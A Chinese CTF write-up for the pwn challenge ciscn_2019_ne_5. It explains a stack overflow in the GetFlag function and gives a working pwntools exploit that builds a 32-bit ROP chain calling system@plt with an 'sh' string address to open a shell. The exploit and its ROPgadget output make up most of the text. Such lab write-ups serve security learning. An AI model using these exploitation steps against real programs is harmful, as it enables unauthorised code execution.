


- `32`位`ROP`劫持

- 程序逻辑

- `/bin/sh`的替代方案`sh`

- 栈上覆盖

- `ROPgadgets`查找字符串

  

  > GetFlag函数

  1.`GetFlag`函数中把先前`AddLog`中加入的`src`变量赋给了`dest`,这里存在溢出

  2.`Print`函数中有`system`函数,通过`plt_system`利用

  3.通过`ROPgadgets`得到`sh`字符串构造`payload`得到`shell`

```shell
bamuwe@qianenzhao:~/done/ciscn_2019_ne_5$ ROPgadget --binary ciscn_2019_ne_5 --string 'sh'
Strings information
============================================================
0x080482ea : sh
```

|          | administer      |      |            |                 |
| -------- | --------------- | ---- | ---------- | --------------- |
|          | 1               |      |            |                 |
| payload1 | padding         |      | 0x4C       | dest            |
|          |                 |      |            | (padding+leave) |
|          | system_plt_addr | ret  |            | system          |
|          | 0xdeadbeef      |      |            |                 |
|          | sh              |      | 0x080482ea |                 |

```python
from pwn import *
context.log_level = 'debug'
elf = ELF('./ciscn_2019_ne_5')
io = process('./ciscn_2019_ne_5')
#io = gdb.debug('./ciscn_2019_ne_5','break *080486C7')
io.sendlineafter(b'Please input admin password:',b'administrator')
io.sendlineafter(b':\n',b'1')
payload1 = b'A'*0x4C+p32(elf.sym['system'])+p32(0xdeadbeef)+p32(0x080482ea)	#不能用p32(0)替代p32(deadbeef)
io.sendlineafter(b'Please input new log info:',payload1)
io.sendlineafter(b':\n',b'4')
io.interactive()
```
